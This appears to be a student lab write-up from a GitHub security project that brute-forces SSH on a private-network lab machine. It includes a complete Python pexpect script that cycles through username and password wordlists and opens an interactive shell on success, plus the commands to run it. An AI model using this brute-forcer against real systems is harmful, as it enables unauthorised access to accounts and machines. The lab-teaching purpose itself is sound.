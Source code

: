 # Phase 1: Setup and Compromise the SSH Service

## 🧠 Task 1.2: Compromise the SSH Service Using a Custom Script

In this task, instead of using Metasploit, we demonstrate how to automate the SSH brute-force attack using a custom Python script. The script utilizes the `pexpect` library to interact with the SSH process directly, handling prompts and testing username/password combinations.

---

## 🔹 Step 1: Execute the Custom Brute-Force Script

We created a script called `SSH_exploitScript.py` that:
- Loads usernames and passwords from two separate files.
- Tries all combinations on the target IP (`192.168.56.102`).
- Reports any successful login attempts.

```python
import pexpect
import sys

def main():
    ip = "192.168.56.102"
    user_file = "/home/kali/Desktop/username"
    pass_file = "/home/kali/Desktop/password"

    try:
        with open(user_file) as uf, open(pass_file) as pf:
            users = [u.strip() for u in uf if u.strip()]
            passwords = [p.strip() for p in pf if p.strip()]
    except Exception as e:
        print(f"[!] Error opening wordlists: {e}")
        sys.exit(1)

    for user in users:
        for password in passwords:
            print(f"[*] Trying {user}:{password}")
            try:
                child = pexpect.spawn(f"ssh {user}@{ip}", timeout=10)
                i = child.expect([
                    r"Are you sure you want to continue connecting \\(yes/no\\)\\?",
                    r"[Pp]assword:",
                    pexpect.TIMEOUT,
                    pexpect.EOF
                ])
                if i == 0:
                    child.sendline("yes")
                    i = child.expect([r"[Pp]assword:", pexpect.TIMEOUT, pexpect.EOF])
                if i == 1:
                    child.sendline(password)
                    j = child.expect([
                        r"Permission denied",
                        r"[#$]\\s",
                        pexpect.TIMEOUT,
                        pexpect.EOF
                    ], timeout=10)

                    if j == 1:
                        print(f"[+] SUCCESS: {user}:{password}")
                        child.interact()
                        return
                    else:
                        print(f"[-] Failed: {user}:{password}")
                else:
                    print(f"[-] No password prompt for {user}@{ip}")
                child.close()
            except pexpect.ExceptionPexpect as e:
                print(f"[!] Exception with {user}:{password} -> {e}")

    print("[-] Brute‑force complete. No valid credentials found.")

if __name__ == "__main__":
    main()
```
---

## 🔹 Step 2: Execute the Custom Script

Before running the script, we need to make it executable. Then, we execute it to start the brute-force attack.

```bash
chmod +x /home/kali/Desktop/SSH_exploitScript.py
python3 /home/kali/Desktop/SSH_exploitScript.py
```

This launches the script which tries each username and password combination from the wordlists.

📸 Screenshot:
![runs](https://github.com/jalsayid/Security-project/blob/fb306032acd0542b847724f35733bd66a50eacef/Phase1/screenshots/execute.png)

---

## 🔹 Step 3: Confirm Successful Access from Script Output

As the script runs, it prints out each username and password pair being tested. When the correct credentials are found (`vagrant:vagrant`), the script successfully logs into the victim machine and provides shell access.

📸 Screenshot:  
![Successful Access](https://github.com/jalsayid/Security-project/blob/fb306032acd0542b847724f35733bd66a50eacef/Phase1/screenshots/entering%20the%20system%20and%20the%20script.png
)


